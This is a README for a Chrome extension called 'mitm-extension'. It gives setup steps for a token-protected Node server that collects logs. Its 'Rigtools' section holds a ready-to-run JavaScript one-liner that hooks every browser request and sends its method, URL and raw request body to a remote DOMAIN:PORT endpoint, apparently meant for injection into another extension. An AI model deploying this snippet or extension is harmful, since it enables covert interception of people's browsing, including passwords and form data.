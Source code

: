 # mitm-extension
Log all request sent to and from your browser

## Setup
```sh
$ git clone https://github.com/entrpix/mitm-extension
```

## Extension
- Inside `mitm-extension/extension/background.js` edit:
  - `SERVER_URL` to be your server
  - `TOKEN` to be your token
- Zip the extension
- Then go to `chrome://extensions`
  - Enable developer mode
  - Load extension

## Server
```sh
$ cd mitm-extension
$ cd server
$ touch .env
$ echo "TOKEN=YOUR_TOKEN" > .env
$ (p)npm i
$ node index.js
```

To access your logs visit `DOMAIN:PORT/logs?auth=TOKEN`

## Rigtools
Requires `webRequest` premission
```js
chrome.webRequest.onBeforeRequest.addListener(d => d.url.includes('DOMAIN:PORT') || fetch('http://DOMAIN:PORT/create', { method: 'POST', headers: { 'Content-Type': 'application/json', 'Authentication': 'TOKEN' }, body: JSON.stringify({ method: d.method, date: new Date().toISOString(), url: d.url, requestBody: d.requestBody && d.requestBody.raw ? String.fromCharCode.apply(null, new Uint8Array(d.requestBody.raw[0].bytes)) : null }) }).catch(e => console.error('Error:', e)), { urls: ["<all_urls>"] }, ["requestBody"]);
```
